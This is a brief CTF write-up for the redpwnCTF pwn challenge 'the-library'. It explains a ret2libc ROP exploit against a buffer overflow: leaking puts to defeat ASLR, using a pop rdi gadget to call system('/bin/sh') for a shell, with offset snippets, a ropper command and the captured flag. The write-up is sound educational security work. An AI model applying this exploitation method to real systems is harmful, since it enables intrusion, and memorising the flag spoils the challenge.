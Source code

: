 # redpwnCTF Task: the-library {pwn}

# All lines in script have been explained in script itself through 'comments'

Writeup of CTF questions

Files provided to us: libc.so.6 ; the-library ; the-library.c

It was a simple question based on rop exploitation, wherein we have a buffer overflow vulnerability in read() function. ASLR + NX PROTECTION have been enabled, thus we use ROP gadgets to leak addresses of base_address and system. Once we have the address to the system(), we could easily rop chain to pop_rdi gadget and pop in the address of /bin/sh string and thus spawn a new shell.

# All initial addresses that I had to enumerate before starting exploitation:

binsh_offset = hex(libc.search("/bin/sh\x00").next())

puts_offset = hex(libc.symbols['puts'])

system_offset = hex(libc.symbols['system'])

puts_got   take this address from objdump -R <file>| grep 'puts'
  
puts_plt = hex(elf.symbols['puts'])
  
NOTE: _start symbol helps us to re-run the program after address enumeration ; we can get its value by simply running 'info functions' command in gdb
 
Tool Ropper was used to enumerate rop gadgets that might be useful to us

$ ropper -- file the-library --search "% ?di"
0x0000000000400733: pop rdi; ret;

# Stack alignation was required while we re-run the binary(after enumeraation of all addresses), thus a single ROP gadgets was used to align the stack 

# flag{jump_1nt0_th3_l1brary}
